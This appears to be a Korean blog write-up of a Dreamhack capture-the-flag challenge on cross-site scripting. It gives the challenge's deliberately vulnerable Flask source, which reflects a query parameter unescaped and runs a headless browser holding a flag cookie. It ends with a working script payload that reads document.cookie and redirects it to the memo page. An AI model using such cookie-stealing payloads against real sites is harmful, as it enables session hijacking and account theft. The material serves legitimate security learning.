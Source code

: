 ```yaml
---
layout: post
title: "드림핵 DOM XSS"
---
```


# XSS란? 
XSS = Cross-site Scripting  

<br>

# 문제
- 첫페이지 화면 및 HTML 소스  
![image](https://user-images.githubusercontent.com/86642180/167378518-6b373aa8-51c9-4b56-b1e2-c31bc10f5092.png)

<br>

- vuln(xss) page 화면 및 HTML  
![image](https://user-images.githubusercontent.com/86642180/167378590-db526f82-850f-4ba4-8e6e-9398376a1194.png)

<br>

- memo 화면 및 HTML  
![image](https://user-images.githubusercontent.com/86642180/167380660-36091b92-c039-44ce-aaa9-ab86402ea9c5.png)  
새로고침할때마다 container에 hello가 추가됨  

<br>

- flag 화면 및 HTML  
![image](https://user-images.githubusercontent.com/86642180/167378743-f2edda02-b42a-43e5-b5fd-0e49cadb56f6.png)
post 방식인 폼태그에 알맞은 텍스트를 보내면 flag가 나오나보다  

<br>

폼태그에 아무말이나 써서 submit 클릭하면  
![image](https://user-images.githubusercontent.com/86642180/167380480-77033337-5e76-4bd3-9e1e-2308d69535ba.png)  
alert으로 good이 뜬다  

<br>

# 문제 코드
```
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```
일단 /flag 페이지에서 폼은 post 방식으로 진행되므로  
`if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):` 여기에서  
check_xss 부분이 true여야 구현이 된다  
check_xss에서 param과 cookie가 있어야 플래그를 출력할 수 있다  

<br>

첫페이지는 별거 없고 vulu 여기도 그냥 스크립트 넣으니 뜨는거 뭐 어쩌라는건지 모르겠다   
메모 페이지가 컨테이너 쪽에 사용자가 입력하는 값을 get 방식으로 받아서 출력한다  
memo.html에 쿠키가 있으니 뭐가 되는거같다  

# 쿠키 가져오기
```
<script>
alert("hello"); <!-- 메시지 출력 -->
document.cookie; <!-- 쿠키값 -->
location.href=""; <!-- ""내의 링크로 위치 이동 -->
document.location=""; <!-- "" 링크로 이동 -->
</script>
```
memo html 파일에 있는 쿠키 값을 가져와야 하는데  
./memo.html로는 안될거같고  
애초에 서버에 올라간? 링크를 통해 memo.html에 접속해서 .document~~ 해서 가져와야할거같다  

<br>

`<script>location.href="http://127.0.0.1:8000/memo?memo=hello"+document.cookie</script>`  
을 추가했는데 페이지 이동이 자동으로 안되서 틀린줄 알았다  

<br>

메모에 들어가니 답이 출력되있었다  
![image](https://user-images.githubusercontent.com/86642180/167383603-8fe05705-2a32-444e-a92e-bad83103dd0b.png)


<br> <br>
### 참고자료
https://yoobi.kr/m/132#:~:text=DOM%20Based%20XSS%EB%9E%80%3F,%EC%8B%A4%ED%96%89%EB%90%98%EB%8A%94%20XSS%20%EA%B3%B5%EA%B2%A9%EC%9D%B4%EB%8B%A4.  
https://hobbylists.tistory.com/entry/XSSCross-Site-Scripting%EA%B3%B5%EA%B2%A9-%EC%8B%A4%EC%8A%B5-Dreamhack-%EC%8B%A4%EC%8A%B5%EC%98%88%EC%A0%9C

